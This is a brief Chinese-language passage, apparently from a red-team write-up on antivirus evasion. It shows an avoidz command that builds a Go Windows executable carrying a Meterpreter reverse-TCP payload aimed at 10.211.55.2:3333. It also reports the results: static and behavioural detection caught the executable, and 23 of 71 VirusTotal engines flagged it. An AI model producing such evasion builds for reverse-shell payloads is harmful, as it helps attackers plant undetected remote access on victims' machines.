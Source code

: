 
- 使用avoidz编译golang生成exe(VT免杀率23/71)

使用go生成exe文件
```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f go
```

go版本的静态查杀都没通过，行为检测依据被拦

![5715af25eda4b23a9afdb6454505e18a](images/2020.03-bypass-02/23.png)

virustotal.com中23/71个报毒
